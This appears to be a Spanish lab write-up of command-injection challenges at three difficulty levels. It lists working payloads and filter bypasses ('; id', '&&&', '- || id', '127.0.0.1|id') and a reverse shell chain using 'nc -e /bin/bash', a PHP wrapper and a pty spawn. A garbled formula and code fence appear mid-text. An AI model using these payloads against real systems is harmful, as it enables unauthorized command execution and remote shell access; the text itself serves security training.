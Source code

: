 # Command Injection

La vulnerabilidad de inyección de comandos es una vulnerabilidad de seguridad que permite a un atacante ejecutar comandos arbitrarios en el sistema operativo del servidor. Esto puede conducir a la ejecución de comandos arbitrarios en el sistema operativo del servidor.

## Bajo

El planteamiento seguido ha sido el de ejecutar un comando después de otro, para ello, hemos completado el `ping -c 4` con una ip y a continueación hemos añadido la sentencia `; id` para mostrar el usuario que ejecuta el servicio web.

```bash
127.0.0.1 > /dev/null; id
```

![challenge](/CI/assets/challenge.png)

## Medio

Para este nivel, vemos que entradas como las siguientes no funcionan, esto es debido a que el servidor esta eliminando expresiones como `;` y `&&`.

```bash
127.0.0.1 > /dev/null; id
127.0.0.1 > /dev/null && id
```

Sin embargo, podemos aprovechar que la implementación no es segura y con alguna pequeña modificación podemos bypassear la protección.
<br>
**x** es el número de `&` que se deben escribir para que el comando `id` se ejecute.

```bash
$$
x = 2n + 3, n\in \mathbb{N}
$$
```bash
127.0.0.1 > /dev/null &&& id
```

Además, otra de las multiples posibilidades es utilizar el operador `||` para ejecutar el comando `id` si el comando anterior falla. Para ello se fuerza el fallo colocando una cadena invalida `-`.

```bash
- || id
```

![challenge](/CI/assets/challenge.png)

--- 

### Reverse shell

El primer paso es crear un servidor de escucha en el puerto 4000.

```bash	
nc -lvnp 4000
```

El siguiente paso es crear un archivo php que ejecute el comando `nc` para establecer una conexión con el servidor de escucha.

```bash
- || echo '<?php system("nc 127.0.0.1 4000 -e /bin/bash"); ?>' > shell.php
```

Por último, se ejecuta el archivo php para obtener una shell.

```bash
- || php shell.php
```

Como parte opcional se puede utilizar el siguiente comando para obtener una shell interactiva.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![shell](/CI//assets/reverse-shell.png)

## Alto

En este nivel, vemos que el servidor esta filtrando la entrada de comandos, por lo que no podemos ejecutar comandos arbitrarios. Sin embargo, al probar el comando utilizado para el nivel medio, vemos que el servidor esta fallando al filtrar la entrada.

```bash
- || id
```

Se ha detectado otra brecha al escribir el siguiente comando sin ningún espacio.

```bash
127.0.0.1|id
```

![challenge](/CI/assets/challenge.png)


